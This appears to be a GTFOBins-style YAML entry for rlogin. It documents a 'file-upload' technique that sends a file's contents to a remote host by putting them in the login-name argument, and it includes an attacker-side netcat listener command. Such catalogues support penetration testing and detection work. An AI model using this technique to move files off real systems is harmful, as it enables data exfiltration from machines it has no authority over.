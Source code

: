 ```yaml
---
description: |
  Usually `rlogin` is a symlink to `ssh`, the following works only when the *real* `rlogin` is used (e.g., from the `rsh-client` APT package).
functions:
  file-upload:
    - description: |
        Send contents of a file to a TCP port. Run `nc -l -p 4444 > "file_to_save"` on the attacker system to capture the contents.

        `rlogin` hangs waiting for the remote peer to close the socket.

        The file is corrupted by leading and trailing spurious data.
      code: |
        rlogin -l "$(cat $LFILE)" -p $RPORT $RHOST
---
```

